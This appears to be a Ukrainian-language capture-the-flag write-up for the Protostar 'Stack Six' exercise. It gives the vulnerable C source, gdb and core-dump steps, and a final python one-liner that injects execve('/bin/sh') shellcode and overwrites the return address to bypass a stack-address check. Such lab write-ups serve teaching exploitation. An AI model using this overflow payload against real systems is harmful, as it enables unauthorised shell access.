

## [Stack Six](http://exploit.education/protostar/stack-six/)

Stack6 демонструє, що відбувається, коли у вас є обмеження щодо адреси повернення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Знайдемо буфер стека для переповнення:
```
gdb ./stack6
...
disassemble getpath
```


Компілятор використовує EBP як орієнтир для локальних змінних, що полегшує обчислення. 
Буфер розташований на ```0x4c``` або 76 байта від EBP, тому для перезапису зворотної адреси нам просто потрібно записати ще 4 байти. 
Ми могли б знайти буфер користувача у пам'яті під час тестування таким чином:  
```
ulimit -c unlimited
python -c "print('B' * 80 + 'AAAA')" | ./stack6
...
gdb ./stack6 /tmp/core.11.stack6.1642
...
x/40x $esp-100
```


Отже, маємо адресу ```0xbffffс9c```

Якщо спробувати атакувати як раніше, то нічого не вийде, бо у програмі є перевірка значення адреси повернення:  
```python -c "print('\xcc' * 80 + '\xbf\xff\xfc\x9c'[::-1])" | ./stack6``` 

 

### Duplicate payload  

Можливо, ми зможемо знайти десь у пам'яті адресу, яка не починається з ```0xbf......```. 
Давайте завантажимо дамп ядра з попереднього прикладу та спробуємо знайти буфер за більш зручною адресою:  
```
gdb ./stack6 /tmp/core.11.stack6.1642
...
info files
...
find /w1 0xb7fde000, 0xb7fe2000, 0x42424242
```


Витративши деякий час на перебір варіантів виявляється, що наш буфер дійсно знаходиться за іншою адресою, ```0xb7fde000```. Отже, маємо:  
```(python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6```  

